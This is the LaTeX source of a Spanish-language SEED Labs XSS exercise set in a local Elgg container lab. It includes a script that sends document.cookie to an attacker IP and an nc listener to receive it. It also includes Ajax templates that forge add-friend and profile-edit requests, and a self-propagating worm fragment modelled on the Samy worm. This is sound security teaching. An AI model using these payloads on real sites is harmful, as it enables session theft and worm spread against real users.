%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%  Copyright by Wenliang Du.                                       %%
%%  This work is licensed under the Creative Commons                %%
%%  Attribution-NonCommercial-ShareAlike 4.0 International License. %%
%%  To view a copy of this license, visit                           %%
%%  http://creativecommons.org/licenses/by-nc-sa/4.0/.              %%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\newcommand{\commonfolder}{../../common-files}
\newcommand{\webcommon}{../Web_Common}

\documentclass[11pt]{article}

\usepackage[most]{tcolorbox}
\usepackage{times}
\usepackage{epsf}
\usepackage{epsfig}
\usepackage{amsmath, alltt, amssymb, xspace}
\usepackage{wrapfig}
\usepackage{fancyhdr}
\usepackage{url}
\usepackage{verbatim}
\usepackage{fancyvrb}
\usepackage{adjustbox}
\usepackage{listings}
\usepackage{color}
\usepackage{subfigure}
\usepackage{cite}
\usepackage{sidecap}
\usepackage{pifont}
\usepackage{mdframed}
\usepackage{textcomp}
\usepackage{enumitem}
\usepackage{hyperref}


% Horizontal alignment
\topmargin      -0.50in  % distance to headers
\oddsidemargin  0.0in
\evensidemargin 0.0in
\textwidth      6.5in
\textheight     8.9in 

\newcommand{\todo}[1]{
\vspace{0.1in}
\fbox{\parbox{6in}{TODO: #1}}
\vspace{0.1in}
}


\newcommand{\unix}{{\tt Unix}\xspace}
\newcommand{\linux}{{\tt Linux}\xspace}
\newcommand{\minix}{{\tt Minix}\xspace}
\newcommand{\ubuntu}{{\tt Ubuntu}\xspace}
\newcommand{\setuid}{{\tt Set-UID}\xspace}
\newcommand{\openssl} {\texttt{openssl}}


\pagestyle{fancy}
\lhead{\bfseries SEED Labs}
\chead{}
\rhead{\small \thepage}
\lfoot{}
\cfoot{}
\rfoot{}


\definecolor{dkgreen}{rgb}{0,0.6,0}
\definecolor{gray}{rgb}{0.5,0.5,0.5}
\definecolor{mauve}{rgb}{0.58,0,0.82}
\definecolor{lightgray}{gray}{0.90}


\lstset{%
  frame=none,
  language=,
  backgroundcolor=\color{lightgray},
  aboveskip=3mm,
  belowskip=3mm,
  showstringspaces=false,
%  columns=flexible,
  basicstyle={\small\ttfamily},
  numbers=none,
  numberstyle=\tiny\color{gray},
  keywordstyle=\color{blue},
  commentstyle=\color{dkgreen},
  stringstyle=\color{mauve},
  breaklines=true,
  breakatwhitespace=true,
  tabsize=3,
  columns=fullflexible,
  keepspaces=true,
  escapeinside={(*@}{@*)}
}

\newcommand{\newnote}[1]{
\vspace{0.1in}
\noindent
\fbox{\parbox{1.0\textwidth}{\textbf{Note:} #1}}
%\vspace{0.1in}
}


%% Submission
\newcommand{\seedsubmission}{
Debe enviar un informe de laboratorio detallado, con capturas de pantalla, para describir lo que ha hecho y lo que ha observado.
También debe proporcionar una explicación a las observaciones que sean interesantes o sorprendentes.
Enumere también los fragmentos de código más importantes seguidos de una explicación. No recibirán créditos aquellos fragmentos de códigos que no sean explicados.}

%% Book
\newcommand{\seedbook}{\textit{Computer \& Internet Security: A Hands-on Approach}, 2nd
Edition, by Wenliang Du. Para más detalles \url{https://www.handsonsecurity.net}.\xspace}

%% Videos
\newcommand{\seedisvideo}{\textit{Internet Security: A Hands-on Approach},
by Wenliang Du. Para más detalles \url{https://www.handsonsecurity.net/video.html}.\xspace}

\newcommand{\seedcsvideo}{\textit{Computer Security: A Hands-on Approach},
by Wenliang Du. Para más detalles \url{https://www.handsonsecurity.net/video.html}.\xspace}

%% Lab Environment
\newcommand{\seedenvironment}{Este laboratorio ha sido testeado en nuestra imagen pre-compilada de una VM con Ubuntu 16.04, que puede ser descargada del sitio oficial de SEED.\xspace}

\newcommand{\seedenvironmentA}{Este laboratorio ha sido testeado en nuestra imagen pre-compilada de una VM con Ubuntu 16.04, que puede ser descargada del sitio oficial de SEED.\xspace}

\newcommand{\seedenvironmentB}{Este laboratorio ha sido testeado en nuestra imagen pre-compilada de una VM con Ubuntu 20.04, que puede ser descargada del sitio oficial de SEED .\xspace}

\newcommand{\seedenvironmentC}{Este laboratorio ha sido testeado en nuestra imagen pre-compilada de una VM con Ubuntu 20.04, que puede ser descargada del sitio oficial de SEED. Sin embargo, la mayoría de nuestros laboratorios pueden ser realizados en la nube para esto Ud. puede leer nuestra guía que explica como crear una VM de SEED en la nube.\xspace}

\newcommand{\seedenvironmentAB}{
Este laboratorio ha sido testeado en nuestras imagenes pre-compiladas de una VM con Ubuntu 16.04 y otra con Ubuntu 20.04, que pueden ser descargadas del sitio oficial de SEED.\xspace}

\newcommand{\nodependency}{Dado que utilizamos contenedores para configurar el entorno de laboratorio, este laboratorio no depende estrictamente de la VM de SEED. Puede hacer este laboratorio utilizando otras máquinas virtuales, máquinas físicas o máquinas virtuales en la nube.\xspace}

\newcommand{\adddns}{You do need to add the required IP address mapping to
the \texttt{/etc/hosts} file.\xspace}






\newcommand{\seedlabcopyright}[1]{
\vspace{0.1in}
\fbox{\parbox{6in}{\small Copyright \copyright\ {#1}\ \ by Wenliang Du.\\
      Este trabajo se encuentra bajo licencia Creative Commons.
       Attribution-NonCommercial-ShareAlike 4.0 International License.
       Si ud. remezcla, transforma y construye a partir de este material,
       Este aviso de derechos de autor debe dejarse intacto o reproducirse de una manera que sea razonable para el medio en el que se vuelve a publicar el trabajo.
       }}
\vspace{0.1in}
}







\lhead{\bfseries SEED Labs -- Laboratorio de Cross-Site Scripting (XSS) }

\begin{document}

\begin{center}
{\LARGE Laboratorio de Cross-Site Scripting (XSS)}
\vspace{0.1in}\\
{\Large (Aplicación Web: Elgg)}
\end{center}

\seedlabcopyright{2006 - 2020}

\section{Descripción General}

El Cross-site scripting (XSS) es un tipo de vulnerabilidad muy frecuente en aplicaciones web. Esta vulnerabillidad permite que un atacante pueda introducir código malicioso dentro del navegador de la víctima. A través de este código malicioso el atacante puede robar información sensible de la víctima (Por Ejemplo: Credenciales, Cookies de Sesión). Las políticas de acceso de control de los navegadores (Same Origin Policy) que se utilizan para proteger las credenciales pueden ser evadidas mediante la explotación de las vulnerabilidades del tipo XSS.

Para demostrar lo que los atacantes pueden hacer explotando vulnerabilidades XSS, hemos configurado una apicación web de red social, llamada {\tt Elgg} en nuestra Máquina Virtual.
{\tt Elgg} es una aplicación web muy popular de código abierto que implementa una serie de contramedidas para mitigar amenazas XSS. A su vez para demostrar como funcionan los ataques XSS, y con el objetivo de hacer vulnerable Elgg a este tipo de ataques, hemos desactivado esas contramedidas en nuestra instalación.
Sin estas contramedidas, los usuarios pueden publicar cualquier mensaje arbitrario, incluyendo código JavaScript en los perfiles de usuarios.

En este laboratorio, los estudiantes deberán explotar esta vulnerabilidad, realizando un ataque XSS en la aplicación {\tt Elgg}, de tal forma que se pueda simular el ataque hecho por Samy Kamkar a {\tt MySpace} en el 2005 usando el célebre gusano denominado Samy Worm.
El objetivo final de este ataque es poder propagar el gusano XSS entre los diferentes usuarios de la aplicación, de modo tal que quien acceda al perfil de un usuario infectado sea infectado, y aquel que este infectado será agregado a su lista de amigos. Este laboratorio cubre los siguientes tópicos:

\begin{itemize}[noitemsep]
 \item Ataques de Cross-Site Scripting
 \item Gusanos XSS y Auto-Propagación
 \item Cookies de Sesión
 \item Requests HTTP GET and POST
 \item JavaScript and Ajax
 \item Content Security Policy (CSP) 
\end{itemize}


\paragraph{Lecturas.}
Para una cobertura más detallada en Ataques de Cross-Site Scripting se puede consultar 
\begin{itemize}
\item Capítulo 10 SEED Book, \seedbook
\end{itemize}


\paragraph{Entorno de Laboratorio.} 
\seedenvironmentB  
\nodependency


% *******************************************
% SECTION
% ******************************************* 
\section{Configuración del Entorno de Laboratorio}


% -------------------------------------------
% SUBSECTION
% -------------------------------------------
\subsection{Configuración DNS} 

Para este laboratorio hemos configurado multiples sitios web hosteados en el contenedor \texttt{10.9.0.5}. Lo primero que hay que hacer es mapear los nombres de dominio del servidor web con sus IPs. Para ello deberá agregar las siguientes entradas en el archivo \texttt{/etc/hosts}.
Para poder modificar este archivo ud. debe contar con privilegios de root:

\begin{lstlisting}
10.9.0.5        www.seed-server.com
10.9.0.5        www.example32a.com
10.9.0.5        www.example32b.com
10.9.0.5        www.example32c.com
10.9.0.5        www.example60.com
10.9.0.5        www.example70.com
\end{lstlisting}
 

% -------------------------------------------
% SUBSECTION
% -------------------------------------------
\subsection{Setup del Contenedor y sus Comandos}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
Para empezar a preparar el contenedor, deberá descargarse el archivo \texttt{Labsetup.zip} ubicado en el laboratorio correspondiente dentro del sitio web oficial y copiarlo dentro de la Máquina Virtual prevista por SEED. Una vez descargado deberá descomprimirlo y entrar dentro del directorio \texttt{Labsetup} donde encontrará el archivo \texttt{docker-compose.yml} que servirá para setear el entorno de laboratorio. Para una información más detallada sobre el archivo \texttt{Dockerfile} y otros archivos relacionados, puede encontrarla dentro del Manual de Usuario del laboratorio en uso, en el sitio web oficial de SEED.

Si esta es su primera experiencia haciendo el setup del laboratorio usando contenedores es recomendable que lea el manual anteriormente mencionado.

A continuación, se muestran los comandos más usados en Docker y Compose.
Debido a que estos comandos serán usados con mucha frecuencia, hemos creados un conjunto de alias para los mismos, ubicados en del archivo \texttt{.bashrc} dentro de la Máquina Virtual provista por SEED (Ubuntu 20.04)

\begin{lstlisting}
$ docker-compose build  # Build the container image
$ docker-compose up     # Start the container
$ docker-compose down   # Shut down the container

// Aliases for the Compose commands above
$ dcbuild       # Alias for: docker-compose build
$ dcup          # Alias for: docker-compose up
$ dcdown        # Alias for: docker-compose down
\end{lstlisting}


Dado que todos los contenedores estarán corriendo en un segundo plano. Necesitamos correr comandos para interactuar con los mismos, una de las operaciones fundamentales es obtener una shell en el contenedor. 
Para este propósito usaremos \texttt{"docker ps"} para encontrar el ID del contenedor deseado y ingresaremos \texttt{"docker exec"} para correr una shell en ese contenedor.
Hemos creado un alias para ello dentro del archivo \texttt{.bashrc}

\begin{lstlisting}
$ dockps        // Alias for: docker ps --format "{{.ID}}  {{.Names}}" 
$ docksh <id>   // Alias for: docker exec -it <id> /bin/bash

// The following example shows how to get a shell inside hostC
$ dockps
b1004832e275  hostA-10.9.0.5
0af4ea7a3e2e  hostB-10.9.0.6
9652715c8e0a  hostC-10.9.0.7

$ docksh 96
root@9652715c8e0a:/#  

// Note: If a docker command requires a container ID, you do not need to 
//       type the entire ID string. Typing the first few characters will 
//       be sufficient, as long as they are unique among all the containers. 
\end{lstlisting}

En caso de problemas configurando el entorno, por favor consulte la sección ``Common Problems'' en el manual ofrecido por SEED. 


%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%



% -------------------------------------------
% SUBSECTION
% -------------------------------------------
\subsection{Aplicación Web Elgg}

Para este laboratorio usaremos una aplicación web llamada {\tt Elgg}.
{\tt Elgg} es una aplicación de redes sociales basadas en la web.
Esta aplicación web ya esta configurada en las imágenes provistas en los contenedores y su URL es \url{http://www.seed-server.com}.
Usaremos dos contenedores, el primero será el encargado de correr el servidor web  (\texttt{10.9.0.5}) y el segundo será el encargado de correr el servidor de base de datos MySQL (\texttt{10.9.0.6}). 
Las direcciones IPs para ambos contenedores están hardcodeadas en múltiples lugares de los archivos de configuración del proyecto, por lo tanto se recomienda no cambiarlos en el archivo \texttt{docker-compose.yml}

% MySQL database
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\paragraph{Base de Datos MySQL.}

Los contenedores suelen ser desechables, esto quiere decir que una vez que son destruidos, toda la información dentro de ellos se pierde por completo.
Para este laboratorio queremos que nuestra información quede persistida en la base de datos MySQL, por lo tanto no perderemos nuestro trabajo al apagar nuestro contenedor. Para lograr esto, hemos montado la carpeta \texttt{mysql\_data} en nuestra Máquina Host (dentro de la carpeta \texttt{Labsetup}, esta carpeta será creada después que el contenedor de MySQL sea creado y este corriendo) ubicada en el directorio \texttt{/var/lib/mysql} dentro del contenedor MySQL, en este directorio MySQL guardará todas las bases de datos.
Inclusive si el contenedor es destruido la información de la base de datos es conservada.
Si Ud. desea resetear la base de datos puede borrar la carpeta, usando el siguiente comando;
\begin{lstlisting}
$ sudo rm -rf mysql_data
\end{lstlisting}


%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%


%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%  Copyright by Wenliang Du.                                       %%
%%  This work is licensed under the Creative Commons                %%
%%  Attribution-NonCommercial-ShareAlike 4.0 International License. %%
%%  To view a copy of this license, visit                           %%
%%  http://creativecommons.org/licenses/by-nc-sa/4.0/.              %%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%


\paragraph{Cuentas de Usuario.}
Hemos creado varias cuentas de usuario en el servidor de la aplicación {\tt Elgg}
Los usuarios y sus respectivos passwords son detalllados a continuación:


\begin{lstlisting}
----------------------------
UserName  | Password
----------------------------
admin     |  seedelgg
alice     |  seedalice 
boby      |  seedboby 
charlie   |  seedcharlie 
samy      |  seedsamy 
----------------------------
\end{lstlisting}





%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%


% *******************************************
% SECTION
% ******************************************* 
\section{Tareas del Laboratorio}

Al hacer copy and paste del código en el archivo PDF, muy a menudo, las comillas dobles y en especial las comillas simples, pueden convertirse en símbolos diferentes que parecen similares. Esta situación causará errores en el código, así que tenga en cuenta este escenario. Cuando esto suceda, elimínelos y escriba manualmente esos símbolos.


% -------------------------------------------
% SUBSECTION
% -------------------------------------------
\subsection{Preparación: Breve Introducción a \texttt{"HTTP Header Live"}}

En este laboratorio necesitaremos crear Requests HTTP. 
Para observar como luce un Request HTTP válido en Elgg, debemos ser capaces de capturar y analizar dichos requests.
Para este propósito usaremos un add-on para Firefox llamado \texttt{"HTTP Header Live"}. Antes de empezar el laboratorio, el estudiante debería estar familiarizado con esta herramienta.
Las instrucciones de como utilizarla están descriptas en esta sección (\S~\ref{web:sec:httpheaderlive}).



% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Tarea 1: Posteando un Mensaje Malicioso que abre una Ventana de Alerta}

El objetivo de esta Tarea es embeber código Javascript dentro de su perfil en la aplicación {\tt Elgg}, esto hará que cuando un usuario visite su perfil este código sea ejecutado y se le muestre una ventana de alerta. 
A continuación se muestra el código que debe ser embebido:

\begin{lstlisting}
<script>alert('XSS');</script> 
\end{lstlisting}
El código anterior debe ser colocado dentro de su perfil (Por ejemplo. en el campo de la descripción), esto hará que quién visite su perfil vea una ventana de alerta.


En este caso, el código JavaScript es lo suficientemente corto como para ser ingresado en el campo de descripción, en caso que desee correr un código más largo pero se encuentre limitado por la cantidad de caracteres a ingresar en el campo del formulario, se puede usar un archivo JavaScript cargándolo desde una ubicación remota usando el atributo {\tt src} dentro del tag {\tt <script>}  A continuación se muestra el ejemplo:
\begin{lstlisting}
<script type="text/javascript" 
        src="http://www.example.com/myscripts.js">
</script>
\end{lstlisting}
En el ejemplo anterior, la página cargará el archivo JavaScript desde \url{http://www.example.com}, pero podría ser cualquier otro servidor.


% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Tarea 2: Posteando un Mensaje Malicioso para Mostrar las Cookies}

El objetivo de esta Tarea es embeber código Javascript dentro de su perfil en {\tt Elgg}, esto hará que cuando un usuario visite su perfil este código sea ejecutado y se abrirá una ventana de alerta con las cookies. 
A continuación se muestra el código que debe ser embebido:
\begin{lstlisting}
<script>alert(document.cookie);</script> 
\end{lstlisting}



% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Tarea 3: Robar las Cookies de la Víctima}

En la tarea anterior hemos utilizado código JavaScript malicioso donde el atacante puede imprimir las cookies de un usuario, pero solamente el usuario que está visitando el perfil puede ver sus propias cookies y no el atacante. En esta tarea el atacante podrá recibir y tener acceso a las cookies de la víctima.
Para lograr esto, el código JavaScript necesitará enviar estas cookies en un Request HTTP al atacante.

Esto se puede hacer insertando código JavaScript malicioso que agrega un elemento {$<$img$>$} en el DOM y donde su atributo {\tt src} apunte a la máquina del atacante. 
De esta forma cuando este código sea insertado y el navegador trate de cargar esta imagen desde el tag {\tt img} usando el atributo {\tt src} como origen de la misma, terminará enviando un Request HTTP GET hacia la máquina del atacante.
El siguiente código envía las cookies al puerto 5555 de la máquina del atacante (cuya IP es {\tt 10.9.0.1}) y donde el atacante tiene un servidor TCP escuchando en ese puerto.

\begin{lstlisting}
<script>document.write('<img src=http://10.9.0.1:5555?c=' 
                       + escape(document.cookie) + '   >'); 
</script> 
\end{lstlisting}

Un programa muy utilizado por los atacantes es \texttt{netcat} (o \texttt{nc}), que si se ejecuta con el parámetro the \texttt{"-l"} se convierte en un servidor TCP que escucha en el puerto especificado por ese parámetro. Este servidor imprimirá toda la información que sea enviada por un cliente y envía al cliente lo que escriba el usuario que está corriendo el servidor TCP.
Para poner a la escucha del puerto  \texttt{5555} escriba el comando que se especifica a continuación:

\begin{lstlisting}
$ nc -lknv 5555 
\end{lstlisting}

\noindent El parámetro \texttt{-l} es utilizado por \texttt{nc}  para indicar el puerto que estará a la escucha de conexiones entrantes.
El parámetro \texttt{-nv} es utilizado
por \texttt{nc} para la verbosidad del output. El parámetro \texttt{-k} indica que cuando una conexión se completa, se quedará a la escucha por una nueva.  


% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Tarea 4: Convertirse en Amigo de la Víctima}

En las subsiguientes tareas, estaremos realizando un ataque similar al que fue hecho por Samy en MySpace en el 2005 (Samy Worm). 
Escribiremos un Gusano XSS que agregará como amigo a cualquier usuario que visite el perfil de Samy. Este gusano no va a ser auto-propagable; Lo haremos auto-propagable en la Tarea 6.


En esta tarea, necesitamos escribir un programa JavaScript malicioso que falsifique Requests HTTP directamente desde el navegador de la víctima, sin la intervención del atacante. El objetivo de el ataque consiste en agregar a Samy como amigo de la víctima. Ya hemos creado un usuario llamado Samy
en el servidor {\tt Elgg} (el nombre de usuario es {\tt samy}).

Para poder agregar un amigo a la víctima, primero debemos averiguar cómo es que un usuario agrega un amigo en {\tt Elgg}.
Más específicamente, necesitamos averiguar qué es lo que se envía al servidor cuando un usuario agrega un amigo.
Para este propósito la herramienta \texttt{HTTP} inspection tool de Firefox, puede ayudarnos a obtener esta información, mostrándonos el contenido de cualquier Request HTTP que es enviado desde el navegador. A partir de este contenido podemos identificar todos los parámetros en el request. En la siguiente Sección~\ref{xss:sec:guidelines} se explica cómo utilizar esta herramienta.

Una vez entendido como es el Request HTTP que permite agregar un amigo, podemos escribir un programa JavaScript para enviar la misma petición HTTP. Hemos provisto un código JavaScript base que ayuda a completar esta tarea.
\begin{lstlisting}
<script type="text/javascript">
window.onload = function () {
  var Ajax=null;

  var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;          (*@ \ding{192} @*)
  var token="&__elgg_token="+elgg.security.token.__elgg_token; (*@ \ding{193} @*)

  //Construct the HTTP request to add Samy as a friend.
  var sendurl=...;  //FILL IN

  //Create and send Ajax request to add friend
  Ajax=new XMLHttpRequest();
  Ajax.open("GET", sendurl, true);
  Ajax.send();
} 
</script>
\end{lstlisting}

El código mostrado anteriormente debe ser ingresado dentro del campo \texttt{"About Me"} en el perfil de la página de Samy.
Este campo tiene dos modos de edición: Editor Mode (usado por defecto) y Text Mode.
El Editor Mode agrega código HTML extra en el texto que es ingresado, mientras que el Text Mode no lo hace. Dado que no queremos agregar código extra dentro de nuestro programa malicioso, el Text mode tiene que ser activado antes de insertar el código JavaScript de ataque. Para activar el Text Mode se debe clickear en \texttt{"Edit HTML"} que está ubicado en la parte superior derecha del campo \texttt{"About Me"}

\paragraph{Preguntas.} Por favor responda las siguientes preguntas:

\begin{itemize}
\item \textbf{Pregunta 1:} Explique el propósito de las líneas \ding{192} and \ding{193}, ¿Por qué son necesarias?

\item \textbf{Pregunta 2:} Si \texttt{Elgg} sólo proporciona el Editor Mode para el campo \texttt{"About Me"} y Ud. no puede cambiarlo a Text Mode, ¿Es posible realizar un ataque exitoso? 
\end{itemize}
 


% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Tarea 5: Modificando el perfil de la Víctima}


El objetivo de esta tarea es modificar el perfil de la víctima cuando esta visite el perfil de Samy. Más precisamente modificar el campo \texttt{"About Me"} de la víctima. Para ello escribiremos un gusano XSS, este no se auto-propagará;  Lo haremos auto-propagable en la Tarea 6.

Al igual que en la tarea anterior, necesitaremos escribir un programa de JavaScript malicioso que falsifique Requests HTTP directamente desde el navegador de la víctima, sin la intervención del atacante.
Para modificar el perfil de la víctima, primero debemos entender como es que un usuario legítimo edita o modifica su perfil en {\tt Elgg}. Más específicamente, necesitamos averiguar como se construye un Request HTTP POST para realizar la modificación del perfil del usuario.
Para este propósito usaremos la herramienta \texttt{HTTP} inspection tool de Firefox.

Una vez entendido como es el Request HTTP Post que permite modificar el perfil del usuario, podemos escribir un programa JavaScript para enviar la misma petición HTTP. Hemos provisto un código JavaScript base que ayuda a completar esta tarea.
\begin{lstlisting}
<script type="text/javascript">
window.onload = function(){
  //JavaScript code to access user name, user guid, Time Stamp __elgg_ts 
  //and Security Token __elgg_token
  var userName="&name="+elgg.session.user.name;
  var guid="&guid="+elgg.session.user.guid;
  var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
  var token="&__elgg_token="+elgg.security.token.__elgg_token;

  //Construct the content of your url.
  var content=...;     //FILL IN

  var samyGuid=...;    //FILL IN
  
  var sendurl=...;     //FILL IN
  
  if(elgg.session.user.guid!=samyGuid)           (*@ \ding{192} @*)
  {
     //Create and send Ajax request to modify profile
     var Ajax=null;
     Ajax=new XMLHttpRequest();
     Ajax.open("POST", sendurl, true);
     Ajax.setRequestHeader("Content-Type",
                           "application/x-www-form-urlencoded");
     Ajax.send(content);
  }
}
</script>
\end{lstlisting}

Al igual que en la Tarea 4, el código mostrado anteriormente debe ser ingresado dentro del campo \texttt{"About Me"} en el perfil de la página de Samy, y el Text Mode debe estar activado antes de ingresarlo.


\paragraph{Preguntas.} Por favor responda la siguiente pregunta:


\begin{itemize}
\item \textbf{Pregunta 3:} ¿Por qué es necesaria la línea \ding{192}? Borre esta línea y repita el ataque. Informe y explique lo que pudo observar.
\end{itemize}
 



% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Tarea 6: Escribiendo un Gusano XSS Auto-Propagable}

Para convertirse en un gusano real, el programa malicioso de JavaScript debe tener la capacidad de propagarse por su cuenta. 
Es decir, cada vez que alguien vea el perfil de un usuario infectado, no sólo se modificará el perfil de aquel que lo vea sino que también el gusano infectará a aquellas personas que vean los perfiles de los usuarios que acaban de ser infectados. De esta forma mientras más usuarios vean perfiles infectados, más rapido se propagará el gusano.
Este fue el mecanismmo usado por el Samy Worm:
En tan solo 20 horas del 4 de Octubre del 2005 momento en que el gusano se activó, alrededor de un millón de usuarios fueron afectados, convirtiendo a Samy en uno de los virus de más rápida propagación de todos los tiempos.

El código JavaScript que hace esto es denominado
{\em self-propagating cross-site scripting worm}. En esta tarea, Ud. deberá de implementar un gusano similar, que no sólo modificara el perfil de la víctima y agregará al usuario ``Samy'' como amigo, sino que también hará una copia de sí mismo dentro del perfil de la víctima, convirtiendo a la víctima en un atacante.

Para hacer al gusano auto-propagable, en el momento en que el código JavaScript malicioso modifica el perfil de la víctima y se copia a sí mismo en el perfil de esta, existen dos técnicas que son las más comunes:


\paragraph{A través de un Link:} Si el gusano se incluye usando el atributo {\tt src} dentro del tag {\tt <script>},
su auto-propagación es mucho más fácil. 
Hemos discutido el atributo {\tt src} en la Tarea 1, a continuación se da un ejemplo.  El gusano puede copiar el siguiente
tag {\tt <script>} en el perfil de la víctima, logrando de esta manera infectar a la misma.

\begin{lstlisting}
<script type="text/javascript" src="http://www.example.com/xss_worm.js">
</script>
\end{lstlisting} 


\paragraph{A través del DOM:} Si el programa JavaScript (es decir el gusano) está embebido en un perfil infectado, para propagarse a otro perfil, el código del gusano puede servirse de las APIs del DOM para obtener una copia de sí mismo desde la página web.
A continuación se muestra un ejemplo del uso de las APIs del DOM. En el siguiente código de ejemplo se obtiene una copia del mismo y se muestra en una ventana de alerta:

{\footnotesize
\begin{lstlisting}
<script id="worm">
   var headerTag = "<script id=\"worm\" type=\"text/javascript\">"; (*@ \ding{192} @*)
   var jsCode = document.getElementById("worm").innerHTML;          (*@ \ding{193} @*)
   var tailTag = "</" + "script>";                                  (*@ \ding{194} @*)
   
   var wormCode = encodeURIComponent(headerTag + jsCode + tailTag); (*@ \ding{195} @*)
      
   alert(jsCode);
</script>
\end{lstlisting}
}

Cabe señalar que {\tt innerHTML} (line \ding{193}) sólo devuelve el código que está dentro del tag de {\tt script} sin incluir los tags de apertura y de cierre, es por eso que necesitamos agregar el tag de inicio {\tt <script id="worm">} (Línea \ding{192}) y el tag de cierre {\tt </script>} (Línea \ding{194}).

Cuando la información es enviada en un Request HTTP POST y se usa el valor {\tt
application/x-www-\\form-urlencoded} para el encabezado HTTP {\tt Content-Type}, el cual es usado en nuestro código, la información que se envía debe ser codificada. El esquema de codificación o el {\tt encoding schema} es llamado \textit{URL encoding}, el objetivo del URL Encoding es reemplazar los caracteres no alfanuméricos con su código ASCII correspondiente, usando el siguiente formato {\tt \%HH}, el signo de porcentaje y dos dígitos hexadecimales. La función {\tt encodeURIComponent()} en la línea \ding{195} es usada para realizar este URL Enconding.

\paragraph{Nota:} Para este laboratorio, Ud. puede utilizar ambas técnicas Link y DOM, pero la técnicas del DOM es obligatoria, debido al nivel de desafio que presenta y también porque su código no depende de la llamada a un recurso externo.



% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Contramedidas en Elgg}

Esta subsección es a modo informativa y no hay una tarea específica para realizar.
La idea es mostrar cómo Elgg se defiende contra ataques XSS.
Elgg ya tiene contramedidas incorporadas, y
las hemos desactivado para hacer posibles los ataques. Actualmente, Elgg usa dos contramedidas.
Una es un plugin de seguridad personalizado \texttt{HTMLawed},
que valida el input del usuario y elimina los tags de este input.
Hemos desactivado este plugin, 
ubicaddo dentro de la función \texttt{filter\_tags()}
en el archivo \texttt{input.php}, que se encuentra dentro del directorio
\path{vendor/elgg/elgg/engine/lib/}. Observe lo siguiente:

\begin{lstlisting}
function filter_tags($var) {
   // return elgg_trigger_plugin_hook('validate', 'input', null, $var);
   return $var;
}
\end{lstlisting}
 
Además de {\tt HTMLawed}, Elgg utiliza el método \texttt{htmlspecialchars()} que es una función nativa de PHP y se suele utilizar para codificar caracteres especiales en el input del usuario, caracteres como {\tt "<"} o {\tt "\&lt"}, {\tt ">"} o {\tt "\&gt"}, etc.
Este método es invocado en los archivos \texttt{dropdown.php}, \texttt{text.php}, 
y \texttt{url.php} que se encuentran dentro del directorio \path{vendor/elgg/elgg/views/default/output/}.
Nuevamente hemos comentado esta contramedida para poder hacer posibles los ataques.

% *******************************************
% SECTION
% *******************************************
\section{Tarea 7: Evitando Ataques XSS Usando CSP}

El problema fundamental de las vulnerabilidades XSS es que HTML permite mezclar el código con los datos. Por lo tanto para remediar esta situación es necesario que separemos ambas partes (el código y los datos). Existen dos formas de incluir código JavaScript dentro de una página HTML, la primera es por medio de código inline y la segunda es por medio de links.
El código inline es aquel código que se inserta directamente dentro de la página, mientras que la otra forma es obtener el código llamando un archivo externo a través de un link y colocarlo dentro de la página.

El código inline es de alguna forma el principal culpable de las vulnerabilidades XSS, ya que los navegadores no tienen forma de determinar el origen o la procedencia de este código, ¿Es de un sitio web o un usuario confiable? Sin este conocimiento previo por parte del navegador no hay forma certera que el navegador pueda determinar si el código a ejecutar es seguro o no.
En contraparte aquel código que es obtenido a través de una fuente externa (es decir un link) le da al navegador una información de importancia que es de donde proviene este código. Los sitios web pueden decirle a los navegadores que fuentes son confiables, esto le permitirá a los navegadores saber que fragmentos de código son seguros para ejecutar y cuales no. Aunque los atacantes puedan usar links para inyectar su código malicioso, estos no podrán colocar ese código en aquellas fuentes en las que el navegador confía.

El mecanismo a través del cual los sitios webs le indican a los navegadores que código es confiable y cual no, se llama Content Security Policy (CSP). 
Este mecanismo esta diseñado para prevenir ataques XSS y de ClickJacking.
CSP se ha convertido en un standard en la gran mayoría de los navegadores.
CSP no solamente sirve para restringir código JavaScript, también puede restringir y limitar la carga de otros tipos de recursos que contiene una página web, como pueden ser imagenes, audio y video de acuerdo a su fuente de origen, como también determinar si una página puede cargar o no una página dentro de un iframe. Aquí, sólo nos centraremos en el uso de CSP para prevenir ataques XSS.



% -------------------------------------------
% SUBSECTION
% -------------------------------------------
\subsection{Configuración de los Sitios Web del Experimento} 

Para hacer los experimentos usando CSP, vamos a configurar varios sitios webs dentro del directorio de la imagen docker ubicada en \texttt{Labsetup/image\_www}, dentro de este directorio existe un archivo llamado \texttt{apache\_csp.conf}. 
Este archivo define cinco sitios web, que comparten el mismo directorio, pero que usan diferentes archivos ubicados dentro del mismo.
Los archivos \texttt{example60} y \texttt{example70} son los sitios que hostean código JavaScript.
Los archivos \texttt{example32a}, \texttt{example32b}, y 
\texttt{example32c} son tres sitios que tienen diferentes configuraciones CSP. Los detalles de estas configuraciones serán explicados más adelante.


\paragraph{Modificando los archivos de configuración}
En el experimento, Ud. necesitará modificar el archivo de configuración de apache (\texttt{apache\_csp.conf}). Si realiza una modificación directamente sobre el archivo dentro del directorio de la imagen, necesitara reconstruir la imagen y reiniciar el contenedor para que los cambios tomen efecto.

